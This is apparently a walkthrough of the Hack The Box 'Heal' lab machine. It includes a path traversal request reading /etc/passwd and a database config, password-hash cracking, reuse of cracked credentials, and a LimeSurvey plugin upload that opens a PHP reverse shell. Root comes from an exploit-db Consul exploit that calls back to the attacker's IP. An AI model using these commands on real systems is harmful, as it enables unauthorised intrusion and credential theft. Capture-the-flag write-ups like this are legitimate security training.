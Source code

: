 **NOTES:**

VPN 10.10.11.46

1.  Add **heal.htb** to **/etc/hosts** file **RUN:** **sudo nano
    /etc/hosts**

2.  RUN: **Nmap -sV -Pn heal.htb**

Ports found: 22, 80

![](Heal/media/image1.png)

3.  **SUBDOMAIN-FUZZING**

RUN: **ffuf -w
/usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -u
http://monitorsthree.htb -H \"Host:FUZZ.monitorsthree.htb\" -ac**

![](Heal/media/image2.png)

4.  Add **api.heal.htb** to **/etc/hosts** file

![](Heal/media/image3.png)

5.  Open in Browser: heal.htb

- Register a USER

- After that, check the survey button, hover over TAKE THE SURVEY (There
  is a hidden URL)

![](Heal/media/image4.png)

![](Heal/media/image5.png)

6.  Add to **take-survey.heal.htb** to **/etc/hosts** file

7.  Open the hidden page

- Username **ralph** found

![](Heal/media/image6.png)

8.  Check hidden page. RUN: **dirsearch -u
    take-survey.heal.htb/index.php -t 50**

**Result**

![](Heal/media/image7.png)

**Opened**

![](Heal/media/image8.png)

9.  Go back to heal.htb/resume and login with your previously created
    account

10. Open Burpsuite and intercept the proxy

- Page loaded with INTERCEPT ON

![](Heal/media/image9.png)

- Result: 1 time forwarded. Send to Repeater

![](Heal/media/image10.png)

- Added Path traversal

**GET /download?filename=../../../../../etc/passwd HTTP/1.1**

![](Heal/media/image11.png)

- Search for HOME to find Users

![](Heal/media/image12.png)

Since we found that the website RUBY ON RAILS (api.heal.htb) used it, we
searched and got it's config file address

- Mod 1^st^ line: **GET /download?filename=../../config/database.yml
  HTTP/1.1**

- **Click Send**

![](Heal/media/image13.png)

Download sqlite3 file

![](Heal/media/image14.png)

11. Crack PASSWORD HASH

- Create a txt file with the HASH inside

![](Heal/media/image15.png)

- RUN: **john test.txt \--wordlist=/usr/share/wordlists/rockyou.txt**

![](Heal/media/image16.png)

- Login via SSH not possible

- Login with found credentials, **USER:** ralph **PASSWORD:** 147258369
  on

[**http://take-survey.heal.htb/index.php/admin/home.php**](http://take-survey.heal.htb/index.php/admin/home.php)

![](Heal/media/image17.png)

Website Verison, see below.

![](Heal/media/image18.png)

12. **LimeSurvey-RCE** (Find a script on Github)

<https://github.com/Y1LD1R1M-1337/Limesurvey-RCE>

![](Heal/media/image19.png)

- Download **config.xml** and **php-rev.php** in Kali VM

- Add **version 6.0** to **config.xml INFO: otherwise it won't work**

![](Heal/media/image20.png)

- Check your **Kali machine's IP-ADDRESS** (COMMAND: ifconfig)

![](Heal/media/image21.png)

- Put this IP in the **php-rev.php** script

**Result:**

![](Heal/media/image22.png)

- ZIP both files (config.xml and php-rev.php)

INFO: Open new Terminal in same directory as both files are located!

RUN: **zip zipname config.xml php-rev.php**

![](Heal/media/image23.png)

13. Upload zipname.zip + activate plugin

![](Heal/media/image24.png)

Click 3^rd^ step and select the file **zipname.zip**

![](Heal/media/image25.png)

Push INSTALL

![](Heal/media/image26.png)

![](Heal/media/image27.png)

Activate it

![](Heal/media/image28.png)

Activated

![](Heal/media/image29.png)

14. Start listener on Kali VM

RUN: **nc -lvnp 100**

![](Heal/media/image30.png)

15. To bounce shell, open this URL in Browser

**http://take-survey.heal.htb/upload/plugins/Y1LD1R1M/php-rev.php**

**SUCCEEDED**

![](Heal/media/image31.png)

16. Change directory to /var/www/limesurvey/application/config

- RUN: cat config.php

**USER + PASSWORD FOUND**

This **PASSWORD** can be used with **USER= ron (SSH login works)**

![](Heal/media/image32.png)

**INFO:** There is only 1 ralph user in the table, his password is the
same as the hash above = 147258369

**There is nothing that can be used in the database**

17. User FLAG: Cat user.txt

![](Heal/media/image33.png)

**[PRIVILEGE ESCALATION]{.underline}**

1.  Transfer Linpeas.sh with SCP-COMMAND to SERVER and let it run.

2.  Start linpeas with: **./linpeas.sh**

![](Heal/media/image34.png)

3.  Port forwarding: RUN: **ssh -L 8500:127.0.0.1:8500 <ron@heal.htb>**

> ![](Heal/media/image35.png)

4.  Open website **http://127.0.0.1:8500**, check source code

**-Source code 1.19.2 found**

> ![](Heal/media/image36.png)

5.  Look for vulnerability <https://www.exploit-db.com/exploits/51117>

> Create exploit.py and put the script in

6.  Set NC listener to get bounce shell

**On Kali machine**:

RUN: **nc -lvnp 100**

> ![](Heal/media/image37.png)

7.  Send request to listener (to Kali VM)

> RUN (on Kali VM): **python exploit.py 127.0.0.1 8500 Kali-IP 100 0**
>
> ![](Heal/media/image38.png)

8.  Connection established. Found Root.txt

![](Heal/media/image39.png)
